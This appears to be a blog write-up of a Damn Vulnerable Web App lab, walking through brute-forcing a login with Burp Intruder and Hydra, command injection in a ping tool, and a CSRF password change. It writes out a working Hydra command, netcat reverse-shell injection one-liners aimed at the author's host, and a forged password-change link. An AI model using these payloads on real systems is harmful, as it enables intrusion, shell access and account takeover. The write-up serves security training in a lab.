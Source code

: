 ```yaml
---
title: DVWA
date: 2021-09-09
categories:
  - Writeup
tags:
  - DVWA
  - Writeup
excerpt_separator: <!--more-->
---
```

<p><img src="/assets/images/dvwa.png" alt="" /></p>

<p>Damn Vulnerable Web App (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment.</p>
<!--more-->
<p>Let's test our OWASP TOP 10 skills with DVWA</p>

<h1>Bruteforcing</h1>
<p>Low</p>

<p>In the Bruteforcing section we can see a normal login page<img src="/assets/images/dvwa/bruteforcing/1.png" alt="" />we can try entering any cred and see how it will react, let's try admin:admin<img src="/assets/images/dvwa/bruteforcing/1-2.png" alt="" />it gives out an error message "Username and/or password incorrect."</p>

<p>Now let's capture the request with a tool called <a href="https://portswigger.net/burp/communitydownload">BurpSuite</a>- BurpSuite is a proxy-based tool used to evaluate the security of web-based applications and do hands-on testing. </p>

<p>Before we continue using BurpSuite we need to setup our web browser's proxy so that BurpSuite can intercept all the request that we want. For this we will use an add-on called <a href="https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/">FoxyProxy</a> to make changing our proxy settings easier. Now add a proxy settings with in FoxyProxy as follows <img src="/assets/images/dvwa/bruteforcing/1-3.png" alt="" /> - Select the proxy that you created and now we're ready to intercept our first request!</p>

<p>Login again using any creds - this time Burp will intercept the request and you should see the request in the Proxy tab<img src="/assets/images/dvwa/bruteforcing/2.png" alt="" /> - here we can see that we sent a GET request for /vulnerabilities/brute/?username=admi&password=admin&Login=Login to our DVWA host which is 192.168.56.103 on my case.</p>

<p>We can Bruteforce this using the Intruder function of Burp - right click on the request and send the request to Intruder<img src="/assets/images/dvwa/bruteforcing/3.png" alt="" /><br>Now that we're in the intruder click the clear button to remove the highlighted payloads - these payloads are the ones that we can bruteforce for this example we will use the Attack Type called Sniper. Highlight the password and click add$.<br><img src="/assets/images/dvwa/bruteforcing/4.png" alt="" />You will notice that the password part will get highlighted this means that it is selected for bruteforcing - now click the payloads tab<br><img src="/assets/images/dvwa/bruteforcing/5.png" alt="" />Here we can load out our wordlists that Burp will use to bruteforce our selected payload, in our case the password section.</p>

<p>I will use the worldlist probable-v2-top1575 from the <a href="https://github.com/danielmiessler/SecLists"> Seclists</a> collection. After loading the wordlist we can now proceed to bruteforcing - Click Attack. Sort the results according to length and from here you will see one entry with different value which is 5007 for password.<br><img src="/assets/images/dvwa/bruteforcing/6.png" alt="" /></p>

<p>if we try to login using the result we will get the following<img src="/assets/images/dvwa/bruteforcing/7.png" alt="" /> If we try to inspect element we can see the location of the image<img src="/assets/images/dvwa/bruteforcing/8.png" alt="" /><br>And after browsing to the directory we will see the other probable users.<img src="/assets/images/dvwa/bruteforcing/9.png" alt="" /></p>

<p>Now we can do the same thing for the other probable users. We can do this one at a time by editing the username field on our request (changing the admin to another user) and then proceeding like before or we can use the Cluster Bomb attack type. To do this clear the payloads, then add the username and password field again.<img src="/assets/images/dvwa/bruteforcing/9-1.png" alt="" /><br>Now this time in the payloads tab, we can set 2 payloads the first one for the usernames and the second for the password. I have created a new file that contains all the possible usernames.<img src="/assets/images/dvwa/bruteforcing/10.png" alt="" /><br>Now I'll set this as my first payload<img src="/assets/images/dvwa/bruteforcing/15.png" alt="" /><br>And for the second I'll still use the worldlist probable-v2-top1575</p>

<p>After some time we got the result of the attack.<img src="/assets/images/dvwa/bruteforcing/16.png" alt="" /><br></p>

<p>We can also use Hydra to bruteforce the web login but we won't deep dive to it for now but to do this we can use the following command</p>

<p style="font-size:20px;font-style:italic">hydra 192.168.56.103 -L "usernames.dvwa" -P "SecLists/Passwords/xato-net-10-million-passwords.txt" http-get-form  "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect:H=Cookie: PHPSESSID=du7ts72sjgglbh74h9gdps1216; security=low"</p>

<ul>
  <li>-L is for a text file that contains the usernames if you want to use a specific username you can use lowercase instead -l</li>
  <li>-P is the same for username but for passwords here we used the wordlists, you can also use lowercase to use specific password -p</li>
  <li>http-get-form is used this time cause the remember from the request that we intercepted we are sending GET request, we also used http as DVWA is using http</li>
  <li>:F= is required for http-get-form this tells hydra to check for this failure message so hydra can differentiate the real credentials, we can also use the opposite which is :S meaning we have to provide a successful message instead</li>
  <li>:H=Cookie: this is needed as we are already logged in as admin within DVWA(initial login page)</li>
</ul>

<h1>Command Execution</h1>
<p>Low</p>

<p>For this section we will learn about Command Execution, Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell.

<p>In this section we can see a single input box that's asking for an IP Address<img src="/assets/images/dvwa/CE/1.png" alt="" /><br>Looks like it is a ping tool. Let's try supplying it with its own IP Address<img src="/assets/images/dvwa/CE/2.png" alt="" /><br>It returns a normal ping output. Let's try my Host IP <img src="/assets/images/dvwa/CE/3.png" alt="" /><br>Let's see what's the output for an unknown IP Address<img src="/assets/images/dvwa/CE/1.png" alt="" /><br>It didn't return any output. I've tried giving it a normal bash command like ls but the same no output.</p>

<p>From this we can conclude that the IP address that we supply is getting treated like a variable and being added to the ping command so it results like ping $IP and then -c4 cause it returns 4 replies. So what happens if we try chaining a command? In Linux we can chain a command using ; So for example ping 127.0.0.1; ls will ping 127.0.0.1 and then execute the list command.<br><img src="/assets/images/dvwa/CE/4.png" alt="" /><br>And the output is <img src="/assets/images/dvwa/CE/5.png" alt="" /><br>As we can see after the ping it showed as the contents of the directory which is help, index.php, source.</p>

<p>So from here we know that this is vulnerable to Command Injection, using this vulnerability we can try running a reverse shell one liner command and see if we can get a reverse shell. For this we can check <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet"> PentestMonkey Cheatsheet</a> for a list of reverse shell commands. First we will set up a netcat listener on our machine using the command</p>
<p style="font-size:20px;font-style:italic">nc -lvnp 1234</p> 
<ul>
  <li>-l means listen mode, for inbound connections</li>
  <li>-p for port number</li>
  <li>-v for verbose</li>
  <li>-n for numeric-only IP address, no DNS</li>
</ul>

<p>Now that our listener is ready<img src="/assets/images/dvwa/CE/4.png" alt="" /><br>We can now try chaining the reverse shell from PentestMonkey to the vulnerable ping tool. I will try using the netcat reverse shell, first I need to confirm if nc is present in this box, to do that I'll run a <i>which nc</i> command</p><img src="/assets/images/dvwa/CE/8.png" alt="" /><br>This confirms that we can use the netcat reverse shell. Now we can input the following <i>127.0.0.1; nc -e /bin/sh 192.168.56.105 1234</i> -Note that 192.168.56.105 is my Host IP. Running this command didn't give us a reverse shell, instead it just ran the ping command. Let's try the other nc reverse shell from PentestMonkey. <i>127.0.0.1; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.105 1234 >/tmp/f</i><br>Using this command gave us a reverse shell, we can confirm from the listener that we set up.<img src="/assets/images/dvwa/CE/9.png" alt="" /><br>And from here we can see that we have access to that machine.<br><img src="/assets/images/dvwa/CE/10.png" alt="" /><br></p>

<h1>CSRF</h1>
<p>Low</p>

<p>Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.</p>

<p>In this section we'll see a page to change admin's password.<img src="/assets/images/dvwa/CSRF/1.png" alt="" /><br>I'll try changing it to test1 and then logout and log in again to confirm.<img src="/assets/images/dvwa/CSRF/2.png" alt="" /><br><img src="/assets/images/dvwa/CSRF/3.png" alt="" /><br>Next we can try purposely send unmatched password.<img src="/assets/images/dvwa/CSRF/4.png" alt="" /><br>Which gives us an error message saying "Passwords did not match." and also if you will notice the url, the unmatched passwords that I sent is exposed which we can probably exploit. <i>192.168.56.103/vulnerabilities/csrf/?password_new=test&password_conf=a&Change=Change#</i></p>

<p>Now we can try changing the URL and we will pretend to be the victim, that we're going to send the malicious link to. Let's change the link to <i>192.168.56.103/vulnerabilities/csrf/?password_new=csrf&password_conf=csrf&Change=Change#</i> this will change the victims password to <i>csrf</i> So let's open a new tab paste and then enter the malicious link <img src="/assets/images/dvwa/CSRF/5.png" alt="" /><br>This will land us back to the CSRF section and it will confirm that the password has been changed.<img src="/assets/images/dvwa/CSRF/6.png" alt="" /><br></p>

<p>Now if we try to login again to our admin user and enter csrf it will let us log in.<img src="/assets/images/dvwa/CSRF/7.png" alt="" /><br><img src="/assets/images/dvwa/CSRF/8.png" alt="" /><br></p>